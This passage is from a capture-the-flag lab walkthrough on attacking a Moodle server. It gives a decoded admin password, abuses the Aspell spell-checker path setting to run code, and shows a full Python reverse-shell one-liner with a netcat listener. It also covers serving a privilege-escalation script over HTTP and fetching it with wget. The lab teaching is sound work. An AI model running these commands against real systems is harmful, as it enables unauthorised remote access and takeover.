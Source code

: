 
  ![[Pasted image 20240717104216.png]]
  

  The image description  consists  base64 encoded string of admin password decoding it we get

    `xWinter1995x!`

7. Using the information you found in the last task, login with the newly found user.


  As this user has more site privileges, you are able to edit the moodle's settings. From here get a reverse shell using python and netcat.

  Take a look into Aspell, the spell checker plugin.


   Hint: `Settings->Aspell->Path to aspell` field, add your code to be executed. Then create a new page and “spell check it”.

   Open a listener:

   `$ rlwrap nc -nlvp 4444`

   Now, from the Configuration panel, enter `spell` in the search. There are 2 settings to modify so that it works:

- Spell engine: PSpellShell
- Path to aspell: your reverse shell


  I used a python shell instead of the one set by default.
   
   ![[Pasted image 20240717104421.png]]

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.37",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

  Go to `Navigation > My profile > Blog > Add a new entry` and clik on the “Toggle spell checker” icon.


  Now you will have a reverse shell

   ![[Pasted image 20240717104923.png]]
### **Task 4:Privilege Escalation**

Now that you have enumerated enough to get an administrative moodle login and gain a reverse shell, its time to priv esc.


Download the [linuxprivchecker](https://gist.github.com/sh1n0b1/e2e1a5f63fbec3706123) to enumerate installed development tools.

To get the file onto the machine, you will need to wget your local machine as the VM will not be able to wget files on the internet. Follow the steps to get a file onto your VM:

- Download the linuxprivchecker file locally
- Navigate to the file on your file system
- Do: **python -m SimpleHTTPServer 1337** (leave this running)========
- On the VM you can now do: wget `<your IP>/<file>.py`
